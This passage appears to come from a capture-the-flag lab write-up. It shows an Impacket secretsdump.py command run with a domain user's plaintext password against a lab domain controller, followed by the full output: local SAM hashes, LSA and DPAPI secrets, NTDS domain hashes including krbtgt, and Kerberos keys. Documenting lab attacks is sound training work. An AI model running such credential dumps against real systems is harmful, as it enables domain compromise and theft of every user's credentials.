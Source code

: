I then added the "pwned" share into the **secretsdump.py** command:

```c
└─$ python3 ../resources/impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.60.75
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
VULNNET-RST\WIN-2BO8M1OE1M1$:aes256-cts-hmac-sha1-96:afb47c9c041aa76bdcec5092c06b64cd2cc7bb5cc33a22e4e0b9c5395a2de9ba
VULNNET-RST\WIN-2BO8M1OE1M1$:aes128-cts-hmac-sha1-96:b7b6f8d5712f5421fddc8150b8905b09
VULNNET-RST\WIN-2BO8M1OE1M1$:des-cbc-md5:7a389e408f2ae931
VULNNET-RST\WIN-2BO8M1OE1M1$:plain_password_hex:e43bef613c95201a529587fef7e65e3fccc4c0d17fdb79f0893ade79035d0bf4183c53067a9ce3114034972380dfc4af6599d80e4582d38cd8c74529062211ff7f10bf5733e6536635c57c2f23b50e97ee81734c3f4442067354c1aad74a50ab7e61efd2d2394d6c16323659123140067e7caa831e846d354ba311e928626e5cad47d1c77510f6979eadf3c75bd44a8770fcf069ee73a3849641b4aaaae5a0e98768e7c1d65d237b567b5b6ceeeefb327e87a288e2a44ba2949e226dbd414309f61bf4c1356e8108de4da6cf0b0a9d58ed98ccd33ee9f4a0db90747461ecb08cc087bd3c81953f7e419621ec6c60671d
VULNNET-RST\WIN-2BO8M1OE1M1$:aad3b435b51404eeaad3b435b51404ee:bd3fbf565ec5fa78ae280aa4902e24cb:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x20809b3917494a0d3d5de6d6680c00dd718b1419
dpapi_userkey:0xbf8cce326ad7bdbb9bbd717c970b7400696d3855
[*] NL$KM 
 0000   F3 F6 6B 8D 1E 2A F4 8E  85 F6 7A 46 D1 25 A0 D3   ..k..*....zF.%..
 0010   EA F4 90 7D 2D CB A5 8C  88 C5 68 4C 1E D3 67 3B   ...}-.....hL..g;
 0020   DB 31 D9 91 C9 BB 6A 57  EA 18 2C 90 D3 06 F8 31   .1....jW..,....1
 0030   7C 8C 31 96 5E 53 5B 85  60 B4 D5 6B 47 61 85 4A   |.1.^S[.`..kGa.J
NL$KM:f3f66b8d1e2af48e85f67a46d125a0d3eaf4907d2dcba58c88c5684c1ed3673bdb31d991c9bb6a57ea182c90d306f8317c8c31965e535b8560b4d56b4761854a
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7633f01273fc92450b429d6067d1ca32:::
vulnnet-rst.local\enterprise-core-vn:1104:aad3b435b51404eeaad3b435b51404ee:8752ed9e26e6823754dce673de76ddaf:::
vulnnet-rst.local\a-whitehat:1105:aad3b435b51404eeaad3b435b51404ee:1bd408897141aa076d62e9bfc1a5956b:::
vulnnet-rst.local\t-skid:1109:aad3b435b51404eeaad3b435b51404ee:49840e8a32937578f8c55fdca55ac60b:::
vulnnet-rst.local\j-goldenhand:1110:aad3b435b51404eeaad3b435b51404ee:1b1565ec2b57b756b912b5dc36bc272a:::
vulnnet-rst.local\j-leet:1111:aad3b435b51404eeaad3b435b51404ee:605e5542d42ea181adeca1471027e022:::
WIN-2BO8M1OE1M1$:1000:aad3b435b51404eeaad3b435b51404ee:bd3fbf565ec5fa78ae280aa4902e24cb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:7f9adcf2cb65ebb5babde6ec63e0c8165a982195415d81376d1f4ae45072ab83
Administrator:aes128-cts-hmac-sha1-96:d9d0cc6b879ca5b7cfa7633ffc81b849
Administrator:des-cbc-md5:52d325cb2acd8fc1
krbtgt:aes256-cts-hmac-sha1-96:a27160e8a53b1b151fa34f45524a07eb9899ebdf0051b20d677f0c3b518885bd
krbtgt:aes128-cts-hmac-sha1-96:75c22aac8f2b729a3a5acacec729e353
krbtgt:des-cbc-md5:1357f2e9d3bc0bd3
vulnnet-rst.local\enterprise-core-vn:aes256-cts-hmac-sha1-96:9da9e2e1e8b5093fb17b9a4492653ceab4d57a451bd41de36b7f6e06e91e98f3
```